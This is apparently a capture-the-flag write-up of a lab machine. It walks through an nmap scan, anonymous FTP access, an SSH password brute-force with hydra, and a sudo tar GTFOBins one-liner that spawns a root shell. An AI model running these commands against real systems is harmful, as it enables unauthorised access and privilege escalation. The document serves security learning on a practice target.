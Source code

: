 
we begin by running an nmap scan we have the following result.

![image](/posts/res/BH1.png) 

we have the following ports open our target system:
 - 21 (ftp)
 - 22 (ssh)
 - 80 (http)
 now lets start our enumeration.


##Enumerating Port 21 (FTP)
from the scan port 21 runs ftp service which has  anonymous login enabled. anonymous login is a method that allows users to access an FTP server without providing any authentication credentials, thus enabling anonymous access. This feature is often used for public file repositories or servers hosting freely available resources. When accessing an FTP server anonymously, users typically input "anonymous" as the username and may use their email address or a generic password like "guest" or "anonymous" as the password. While this grants users the ability to download files from the server, their access privileges are usually limited, often restricting them to read-only permissions. Anonymous FTP login serves as a convenient means for users to retrieve publicly shared data without the need for individual accounts, promoting accessibility to information across the internet. 

now we can exploit this simply by using the following command:

```
ftp <TARGET_IP>
USERNAME: anonymous
PASSWORD: leave_blank
```
![image](/posts/res/BH2.png)

we have just discovered two file via ftp now we download them to our local machine using the following command:

```
mget *
```

![image](/posts/res/BH3.png)

when we cat out the content of the ***locks.txt*** file we can see a list of possible passwords

![image](/posts/res/BH4.png)

the ***task.txt*** file simply gives us a message:
![image](/posts/res/BH5.png)

since we have have a password  list my next assumption was to use this information from we have to perform a bruteforce attack on the ssh service .

##Enumerating SSH
to bruteforce ssh, we would be making use of hydra.

```
command used: hydra -l lin -P /path/to/file/locks.txt 10.10.252.46 ssh
```

now we have a password
![image](/posts/res/BH6.png)

so we can try to login as ***lin*** using ssh

```
command used: ssh lin@<TARGET_IP>
```

and now to locate the user flag, simply list out the contents of Desktop Directory.

```
command used: ls -la
```

##Privilege escalation 
Let's execute `sudo -l` to observe the privileges granted to the user for running commands as another user or as root.

we are allowed to run the following command:
![image](/posts/res/BH8.png)

we are allowed to run tar as root. now we head over Here [[https://gtfobins.github.io/gtfobins/tar/]] to get a prive-esc command 

from gtfo bin we can simply copy and execute the following command to gain root:

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![image](/posts/res/BH9.png)

and we are root.


